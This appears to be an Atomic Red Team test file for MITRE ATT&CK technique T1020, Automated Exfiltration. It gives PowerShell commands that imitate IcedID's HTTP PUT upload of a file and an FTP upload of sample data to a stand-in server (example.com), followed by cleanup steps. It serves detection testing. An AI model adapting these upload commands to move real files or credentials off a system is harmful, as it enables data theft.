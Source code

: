 # T1020 - Automated Exfiltration

## Atomic Tests

- [Atomic Test #1 - IcedID Botnet HTTP PUT](#atomic-test-1---icedid-botnet-http-put)

- [Atomic Test #2 - Exfiltration via Encrypted FTP](#atomic-test-2---exfiltration-via-encrypted-ftp)

### Atomic Test #1 - IcedID Botnet HTTP PUT
Creates a text file
Tries to upload to a server via HTTP PUT method with ContentType Header
Deletes a created file

**Supported Platforms:** windows

#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| file | Exfiltration File | string | C:\temp\T1020_exfilFile.txt|
| domain | Destination Domain | url | https://google.com|

#### Attack Commands: Run with `powershell`!

```powershell
$fileName = "#{file}"
$url = "#{domain}"
$file = New-Item -Force $fileName -Value "This is ART IcedID Botnet Exfil Test"
$contentType = "application/octet-stream"
try {Invoke-WebRequest -Uri $url -Method Put -ContentType $contentType -InFile $fileName} catch{}
```

#### Cleanup Commands:
```powershell
$fileName = "#{file}"
Remove-Item -Path $fileName -ErrorAction Ignore
```

### Atomic Test #2 - Exfiltration via Encrypted FTP
Simulates encrypted file transfer to an FTP server. For testing purposes, a free FTP testing portal is available at https://sftpcloud.io/tools/free-ftp-server, providing a temporary FTP server for 60 minutes. Use this service responsibly for testing and validation only.

**Supported Platforms:** windows

#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| sampleFile | Path of the sample file to exfiltrate. | String | C:\temp\T1020__FTP_sample.txt|
| ftpServer | FTP server URL. | Url | ftp://example.com|
| credentials | FTP server credentials. | String | [user:password]|

#### Attack Commands: Run with `powershell`!

```powershell
$sampleData = "Sample data for exfiltration test"
Set-Content -Path "#{sampleFile}" -Value $sampleData
$ftpUrl = "#{ftpServer}"
$creds = Get-Credential -Credential "#{credentials}"
Invoke-WebRequest -Uri $ftpUrl -Method Put -InFile "#{sampleFile}" -Credential $creds
```

#### Cleanup Commands:
```powershell
Remove-Item -Path "#{sampleFile}" -ErrorAction Ignore
```

**Elevation Required:** No

